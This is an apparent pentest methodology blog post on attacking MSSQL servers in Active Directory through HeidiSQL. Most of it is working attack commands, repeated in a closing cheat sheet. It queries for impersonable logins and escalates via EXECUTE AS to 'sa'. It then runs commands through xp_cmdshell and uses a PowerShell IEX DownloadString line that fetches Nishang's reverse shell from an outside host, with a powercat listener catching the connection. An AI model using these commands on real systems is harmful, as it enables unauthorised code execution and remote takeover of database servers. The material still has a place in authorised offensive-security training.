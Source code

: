 ```yaml
---
title: "Active Directory - MSSQL HeidSQL"
tags: [Metodologies]
categories: ActiveDirectory
mermaid: true
image: https://www.safesystems.com/wp-content/uploads/2020/04/Microsofts-LDAP-Security-Update-and-the-Impact-on-Financial-Institutions-Today-Header-Blog-Image.png
---
```


# Active Directory - MSSQL HeidSQL

Here you will find some commands to explore Active Directory with MSSQL HeidSQL

Commands linked to msql instances in Windows AD.

Hope you enjoy.

# Summary

- [Active Directory - MSSQL HeidSQL](#active-directory---mssql-heidsql)
- [Summary](#summary)
- [Initial Consideration](#initial-consideration)
- [Connecting on the Database](#connecting-on-the-database)
- [Exploit the Server](#exploit-the-server)
  - [User Impersonation](#user-impersonation)
  - [RCE](#rce)
- [Conclusion](#conclusion)
  - [Commands Used](#commands-used)

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidisql.png)

# Initial Consideration

Now, let's do SQL differently, through the access we have to it, using HeidiSQL

HeidiSQL download link

[HeidiSQL](https://www.heidisql.com/download.php)

And of course, of course, I'll hide all mentions for which environment I'm enumerating, here it's just for didactic purposes!

# Connecting on the Database

Once we've verified that we have an accessible database there in PowerUpSQL now it's time to check if we have access to it.

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidi.png)

We got it

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidi1.png)

# Exploit the Server

Once connected it is now time to start exploring that server

## User Impersonation

Once logged into HeidiSQL, we should look for users that we have the power to impersonate, in case it runs as if it were 'runes', the commands to check this are:

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidi2.png)

Credits

[Link 1](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)

[Link 2](https://cheats.philkeeble.com/active-directory/mssql)

We found that we can impersonate two users, `sa` and `dbuser`

So let's go!

## RCE

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidi3.png)

We have RCE!

Now just get a reverse shell there!

We will use Nishang's `Invoke-PowerShellTCP.ps1`

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

The `HFS` to host your web server where the remote server will make requests

[HFS](https://www.rejetto.com/hfs/)

And the `powercat` to receive the reverse connection

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

We set powercat on port 443 to receive the reverse connection

```ps1
powercat -l -v -p 443 -t 1000
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev.png)

We fix it (we put the function call at the end of it to automatically run the reverse shell) and upload the Invoke-PowerShellTCP.ps1 into the HFS

![](https://0x4rt3mis.github.io/assets/img/active-enum/rev1.png)

We executed the call in HeidiSQL and received the reverse shell!

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://x.x.x.x/Invoke-PowerShellTCP.ps1''))'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/heidi4.png)

Great!

# Conclusion

So now we're done exploring MS SQL Server in another way, through HEIDISql.

## Commands Used

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

```
powercat -l -v -p 443 -t 1000
```

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://x.x.x.x/Invoke-PowerShellTCP.ps1''))'
```